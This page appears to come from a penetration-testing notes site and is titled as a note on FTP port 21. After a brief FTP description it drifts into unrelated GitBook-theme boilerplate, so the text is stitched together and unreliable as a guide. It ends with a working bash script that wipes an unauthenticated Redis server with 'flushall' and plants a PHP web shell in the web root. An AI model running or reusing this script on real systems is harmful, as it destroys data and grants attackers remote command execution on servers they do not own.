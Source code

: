 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 2019-04-27
category: Jekyll
layout: post
---
```


# Basic Infomation

**File Transfer Protocol (FTP)** is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.\
**Default Port:** `21`\
If [nmap](https://nmap.org) does not get the service header, it relies on the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) database to determine what service is running on a given port.\


GitBook is an amazing frontend style to present and organize contents (such as book chapters
and blogs) on Web. The typical to deploy GitBook at [Github Pages][1]
is building HTML files locally and then push to Github repository, usually to the `gh-pages`
branch. However, it's quite annoying to repeat such workload and make it hard for people do
version control via git for when there are generated HTML files to be staged in and out.

This theme takes style definition out of generated GitBook site and provided the template
for Jekyll to rendering markdown documents to HTML, thus the whole site can be deployed
to [Github Pages][1] without generating and uploading HTML bundle every time when there are
changes to the original repository.

[1]: https://pages.github.com



```bash
#!/bin/bash

rhost="192.168.1.2"   # CHANGE THIS
rport="6379"          # CHANGE THIS

redis-cli -h $rhost -p $rport flushall
sleep 0.3
echo '<?php system($_GET["cmd"]); ?>' | redis-cli -h $rhost -p $rport -x set cmd
sleep 0.3
redis-cli -h $rhost -p $rport config set dir "/var/www/html"
sleep 0.3
redis-cli -h $rhost -p $rport config set dbfilename "cmd.php"
sleep 0.3
redis-cli -h $rhost -p $rport save
sleep 0.3
exit 0
```
